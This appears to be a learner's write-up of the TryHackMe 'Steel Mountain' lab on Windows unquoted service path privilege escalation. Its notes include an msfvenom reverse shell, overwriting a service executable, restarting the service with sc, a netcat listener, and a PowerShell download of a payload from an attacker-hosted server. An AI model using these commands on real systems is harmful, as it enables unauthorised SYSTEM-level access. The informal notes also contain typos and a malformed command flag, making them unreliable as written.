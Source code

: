 # TryHackMe-Steel-MountainWhat in the world is Unquoted Service Path?
When a service is created whose executable path contains spaces and isn’t enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).
In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.

From <https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae> 











Using PowerUp.ps1 script to enumurate the windows system. 
![Image-steel](https://github.com/kiwids0220/TryHackMe-Steel-Mountain/blob/master/Untitled%20picture.png)




Ran Into some erros because we are using the PowerShell.
![image-steel](https://github.com/kiwids0220/TryHackMe-Steel-Mountain/blob/master/Untitled%20picture1234.png)


Fixed!
![image-stell1](https://github.com/kiwids0220/TryHackMe-Steel-Mountain/blob/master/Untitled%20picture123.png)
THINGS LEARNT:
	1. Msfvenom: generate reverse_shell, 
	2. Metasploit's powershell_shell may not work with "sc". Instead, I promoted the command "sc stop AdvancedSystemCareService9" in to the regular CMD shell. And it finally stopped the service. And so is the "copy ASCService.exe "<PATH>" .
	3. Nc a listener in port specified in your payload with msfvenom.
	4. After "sc start AdvancedSystemCareService9" you will see a reverse shell in your terminal
	
	5. Cmd shell comand:  copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
	



	
	
#using without metasploit, I think it is a good practice to do because it is a very good example of work around when metasploit gets reject AV. 
THINGS LEARNT:
		a. Powershell -c "Invoke-WebRequest - FileOut xxxxxx http://<IP>/filename.exe (to download from local server)
		b. Cmd shell: sc start | sc stop <SERVICE> (to start and stop a service)
		c. somtimes TMUX terminal can give a problem reading the buffer when it recieves a rever_shell from windows. Just use a normal terminal window to listen and connect the shell. 

Nc -lvp <PORT LISTENING FROM THE PAYLOAD>


